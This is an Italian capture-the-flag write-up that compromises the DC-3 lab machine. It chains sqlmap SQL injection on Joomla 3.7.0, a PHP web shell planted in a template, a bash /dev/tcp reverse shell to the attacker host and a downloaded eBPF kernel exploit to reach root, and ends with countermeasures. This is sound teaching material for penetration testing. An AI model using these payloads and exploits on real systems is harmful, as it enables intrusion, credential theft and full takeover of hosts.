








# DC3.2 — Write-up

Compromissione della macchina di laboratorio DC3.2 dalla ricognizione alla lettura della flag come root.

Il percorso parte da una SQL injection in Joomla 3.7.0, prosegue con il recupero delle credenziali amministrative e l’esecuzione di comandi attraverso un template PHP, e termina con un’escalation locale dei privilegi.

Ambiente: rete privata di laboratorio. Kali usa 192.168.25.128/24; il target, con hostname DC-3, usa 192.168.25.149. Gli indirizzi vanno adattati se cambia la configurazione del laboratorio.

Percorso: HTTP → Joomla → SQL injection → admin → template PHP → www-data → exploit locale → root.

## 1 Ricognizione di rete

Identifico l’indirizzo della macchina attaccante e cerco il target nella sottorete condivisa.

```bash
ip a
nmap 192.168.25.0/24
nmap -sV -p- 192.168.25.149
```

L’interfaccia eth0 di Kali ha indirizzo 192.168.25.128/24. Il target risponde su 192.168.25.149. La scansione completa TCP rileva una sola porta aperta: 80/http, con Apache httpd 2.4.18 su Ubuntu; le altre 65534 porte risultano chiuse. La scansione non descrive lo stato delle porte UDP.



Aprendo http://192.168.25.149/ compare il sito DC-3. La pagina introduttiva indica che l’obiettivo consiste nell’ottenere privilegi root e recuperare un’unica flag. Il servizio web diventa quindi il punto di partenza dell’analisi.

## 2 Enumerazione del sito e identificazione di Joomla

Cerco directory e risorse comuni per riconoscere l’applicazione e individuare il pannello di gestione.

```bash
gobuster dir -u http://192.168.25.149/ \
  -w /usr/share/wordlists/dirb/common.txt -t 5
curl -I http://192.168.25.149/
curl http://192.168.25.149/language/en-GB/en-GB.xml
```

Gobuster trova /administrator/, /components/, /language/ e /templates/. La pagina /administrator/index.php mostra il login di Joomla: in questa fase il pannello è raggiungibile, ma non sono ancora autenticato. I codici 403 su alcune risorse non dimostrano la possibilità di leggerne il contenuto.

Il banner HTTP conferma Apache 2.4.18, mentre il file XML della lingua riporta Joomla 3.7.0. Quest’ultimo dato orienta la ricerca di vulnerabilità note, senza provarne da solo la sfruttabilità.



## 3 SQL injection ed estrazione dell’account

Joomla 3.7.0 è interessato dalla CVE-2017-8917, descritta nell’advisory ufficiale Joomla. Nel laboratorio il punto di ingresso è list[fullordering] del componente com_fields. sqlmap rileva tecniche error-based e time-based blind.

Per semplificare i comandi salvo l’URL in una variabile della shell Kali. Il valore iniziale 1 lascia a sqlmap la generazione dei test, evitando di usare come URL base un payload UPDATEXML incompleto.

```bash
URL='http://192.168.25.149/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1'
sqlmap -u "$URL" -p 'list[fullordering]' --dbms=mysql --dbs
sqlmap -u "$URL" -p 'list[fullordering]' --dbms=mysql \
  -D joomladb --tables
sqlmap -u "$URL" -p 'list[fullordering]' --dbms=mysql \
  -D joomladb -T '#__users' -C username,password --dump
```

Il database applicativo è joomladb. La tabella #__users contiene l’account admin e un hash bcrypt, riconoscibile dal prefisso $2y$10$. Gli apici conservano letteralmente il nome della tabella nella shell. La presenza di #__ nel nome non prova da sola l’assenza di hardening e non è la causa della SQL injection.



## 4 Recupero della password e accesso amministrativo

La verifica dell’hash documentata nella sessione restituisce la password snoopy. La schermata originale mostra un lookup tramite Hashes.com; non documenta una sessione di cracking locale.

```text
Username: admin
Password: snoopy
Pannello: http://192.168.25.149/administrator/index.php
```

L’autenticazione riesce e rende disponibile il pannello di Joomla. L’account appartiene al gruppo Super Users: questa evidenza conferma l’accesso amministrativo all’applicazione, successivo al recupero delle credenziali.



Dal pannello apro la gestione dei template del sito e seleziono Protostar. L’obiettivo successivo è verificare se i privilegi dell’account e i permessi sui file permettono di modificare codice PHP eseguito dal server. L’accesso amministrativo al CMS non equivale ancora a privilegi root sul sistema operativo.

## 5 Esecuzione di comandi tramite il template

Nell’editor di Protostar apro error.php e inserisco all’inizio del file, prima del controllo _JEXEC, questo frammento:

```php
<?php system($_GET['cmd']); ?>
```

La posizione prima del controllo consente il test tramite richiesta diretta al file. Il frammento passa il parametro HTTP cmd alla funzione system, eseguendo il comando con l’identità del processo web. Dopo il salvataggio verifico il risultato:

```bash
curl -G 'http://192.168.25.149/templates/protostar/error.php' \
  --data-urlencode 'cmd=id'
```

La risposta contiene uid=33(www-data) gid=33(www-data) groups=33(www-data), confermando l’esecuzione remota di comandi.



Questo passaggio sfrutta la possibilità di modificare i template dopo aver compromesso un account privilegiato. Il banner Apache non costituisce la prova di una vulnerabilità del web server.

## 6 Reverse shell ed enumerazione locale

Su Kali avvio il listener; da un secondo terminale richiamo il file modificato con il comando di connessione verso Kali. La porta 4444 è una scelta della sessione e deve essere libera e raggiungibile.

```bash
nc -lvnp 4444
```

```bash
curl -G 'http://192.168.25.149/templates/protostar/error.php' \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.25.128/4444 0>&1'"
```

Il listener riceve la connessione del target e mostra una shell www-data. Gli avvisi sul job control sono coerenti con una shell senza terminale completo e non indicano il fallimento della connessione.



Nella shell del target raccolgo identità, kernel e file SUID:

```bash
id
uname -a
find / -perm -4000 -type f 2>/dev/null
```

Il sistema usa Linux 4.4.0-21-generic su i686, quindi un ambiente a 32 bit. Un binario esclusivamente x86-64 non può essere eseguito direttamente. L’elenco SUID non documenta un percorso sfruttato nella sessione.

## 7 Escalation locale dei privilegi

Oriento la ricerca alla versione del kernel e all’ambiente Ubuntu:

```bash
searchsploit linux 4.4 ubuntu 16.04 privilege escalation
```

Un primo tentativo con linux/local/41458.c non ha successo. Le prove non consentono di attribuire il fallimento a una causa precisa. Il percorso riuscito usa invece EDB-ID 39772, relativo alla CVE-2016-4557 e al problema double-fdput nel caricamento dei programmi eBPF.

Nella sessione riuscita l’archivio viene scaricato direttamente sul target. Dalla shell www-data:

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

La directory di partenza documentata è /var/www/html/templates/protostar. L’archivio contiene anche crasher.tar, che non viene usato nel percorso riuscito. Durante la compilazione compaiono avvisi di conversione tra puntatori e interi: in questa esecuzione non impediscono l’avvio del programma.



La compatibilità è provata dall’esito di questa sessione, non dal solo numero di versione del kernel. L’exploit segnala l’avvio di una shell privilegiata e la verifica successiva conferma uid=0(root).

## 8 Verifica finale e lettura della flag

Dopo l’escalation verifico l’identità e accedo alla directory di root:

```bash
id
whoami
cd /root
ls
cat the-flag.txt
```

id riporta uid=0(root) e whoami restituisce root. La directory contiene the-flag.txt, la cui lettura mostra il messaggio di congratulazioni della challenge.



Il risultato conclude il percorso: da un servizio HTTP esposto sono passato all’accesso amministrativo al CMS, a una shell www-data e infine a privilegi root sul sistema.

## 9 Considerazioni tecniche e contromisure

La compromissione deriva da una catena di condizioni: input vulnerabile nel CMS, recupero di una password debole, modifica di codice PHP tramite un account amministrativo e vulnerabilità locale del kernel. Ogni passaggio amplia i privilegi ottenuti nel precedente.

Per interrompere questa catena occorre aggiornare CMS e kernel a versioni supportate, usare password amministrative robuste e uniche, controllare l’accesso al pannello e limitare la scrittura sui file dell’applicazione. Al termine del laboratorio occorre rimuovere il frammento PHP e i file dell’exploit e ripristinare la macchina da snapshot.

L’advisory Joomla indica 3.7.1 come correzione storica della CVE-2017-8917. Questo dato spiega la vulnerabilità del laboratorio e non costituisce una raccomandazione di usare oggi una vecchia versione del CMS.

## Riferimenti

- [Joomla Security Centre — CVE-2017-8917](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
- [Exploit Database — EDB-ID 39772 e CVE-2016-4557](https://www.exploit-db.com/exploits/39772)

Le schermate documentano la sessione di laboratorio. I comandi sono riordinati per rendere il percorso leggibile; i comandi sqlmap completano la sequenza di enumerazione ed estrazione mostrata nelle prove.
